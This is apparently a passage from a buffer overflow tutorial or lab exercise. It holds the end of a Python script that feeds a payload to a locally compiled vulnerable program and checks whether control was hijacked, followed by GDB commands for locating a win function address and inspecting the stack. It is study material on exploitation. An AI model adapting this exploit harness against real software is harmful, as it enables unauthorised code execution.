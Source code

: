 ```python
    
    print(f"[*] Payload created as {len(payload)} bytes.")
    
    try:
        # Start the vulnerable program as a subprocess.
        # We connect pipes to write to stdin and read from stdout/stderr.
        p = subprocess.Popen(
            [VICTIM_PROGRAM], 
            stdin=subprocess.PIPE, 
            stdout=subprocess.PIPE, 
            stderr=subprocess.PIPE
        )
    except FileNotFoundError:
        print(f"\n[!] ERROR: '{VICTIM_PROGRAM}' not found. Did you compile the C++ code?")
        sys.exit(1)
        
    print("[*] Sending payload to victim program...")
    
    # Send payload to program's standard input and get output
    stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    # Convert output from bytes to string for easier processing
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    
    print("\n--- Output from Victim Program ---")
    print(stdout_output)
    print("------------------------------------")
    
    # Look for the keyword we determined in the program's output.
    if "CONTROL TAKEN" in stdout_output:
        print("\n[+] Vulnerability successfully exploited!")
    else:
        print("\n[-] Exploitation failed. Check the address or offset.")
        # We can also print stderr for debugging
        stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')
        if stderr_output:
            print("\n--- Error Output (stderr) ---")
            print(stderr_output)


if __name__ == "__main__":
    main()

```

## Complete Solution (Finding Addresses with GDB)

### 1. Finding Addresses with GDB

```bash
# Open binary with GDB
gdb ./compiled/vulnerable_code

# Find function addresses
(gdb) info functions
(gdb) info functions win_function
(gdb) x/gx win_function

# Test buffer overflow
(gdb) break vulnerable_function
(gdb) run
(gdb) x/32gx $rsp
(gdb) continue
```